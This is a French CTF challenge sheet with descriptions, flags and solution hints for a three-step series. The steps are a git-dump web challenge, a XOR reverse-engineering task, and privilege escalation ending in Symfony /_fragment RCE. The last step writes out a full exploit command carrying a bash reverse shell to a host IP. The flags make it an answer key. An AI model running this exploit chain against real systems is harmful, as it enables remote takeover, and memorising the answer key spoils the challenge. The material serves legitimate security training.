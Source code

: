 # Coup de bol 1/3 - Gitty Mistake

| Catégorie  | Web      |
|------------|----------|
| Difficulté | Facile 😊 |
| État       | Validé ✅ |

## Description

Un ami se vante de son nouveau site, prétendant qu'il est infaillible parce qu'il utilise une technologie très ancienne et et qui a fait ses preuves. Peux-tu prouver qu'il a tort en accédant à sa page secrète ?

Note : Outils d'énumération de ressources autorisés.

- Auteur : Romain

## Indices
1. Versioning

## Flag
||`CYBN{D3v3l0pm3n7_r3s0urc3s_c4n_b3_us3fu1}`||

## Pistes
git-dumper pour récup le .git, analyse des sources pour trouver /SuperTopSecretAdminPage et trouver la subtilité dans le controller admin.cbl qui montre qu'il faut faire la req avec -H "Host: mysecretadministrationdomain.arpa"

--------------------------------------------

# Coup de bol 2/3 - The old days...

| Catégorie  | Reverse   |
|------------|-----------|
| Difficulté | Moyen 🙂 |
| État       | A tester 🎯 |

## Description

Alors comme ça, tu as réussi à récupérer toutes les sources de son application, ainsi que l'exécutable qui tourne sur la machine ? Bien, peut-être que ce dernier contient la clé pour aller plus loin.

Note : Entourez ce que vous pensez être le flag avec ``CYBN{<votre idée>}``

- Auteur : Romain

## Flag
||`CYBN{Ju57_4_s1mpl3_X0R}`||

## Pistes
Reverse le the.cow qu'a été commit, pour retrouver la clé qui sert à l'upload

--------------------------------------------

# Coup de bol 3/3 - Une symphonie de langages

| Catégorie  | Web      |
|------------|----------|
| Difficulté | Difficile 😠 |
| État       | A tester 🎯 |

## Description

Maintenant que t'as sa fameuse clé secrète, montre lui une bonne fois pour toutes qu'il n'aurait pas du te challenger, deviens root sur sa machine !

- Auteur : Romain

## Flag
||`CYBN{Fully_pwn3d_m4ch1n3}`||

## Pistes
Utiliser la clé de l'étape précédente pour post un revshell en cobol qui sera run sur le container en tant que www-data, scan interne pour trouver la présence d'un symfony sur 127.0.0.1:8000 (trouvable aussi via analyse des sources), récupérer son APP_SECRET, rce via /_fragment du symfony pour latéraliser sur le compte qui run l'app (root).

```sh
python symfony-secret-fragments-v2.py 'http://127.0.0.1:8000/_fragment' --secret 'a4b0d6ee9ea8678112a3dbaed3143b16' --algo sha256 --method 1 --function popen --arguments "command:bash -c 'sh -i >& /dev/tcp/192.168.1.129/8444 0>&1'" 'mode:r' --internal-url 'http://127.0.0.1:8000/_fragment'```
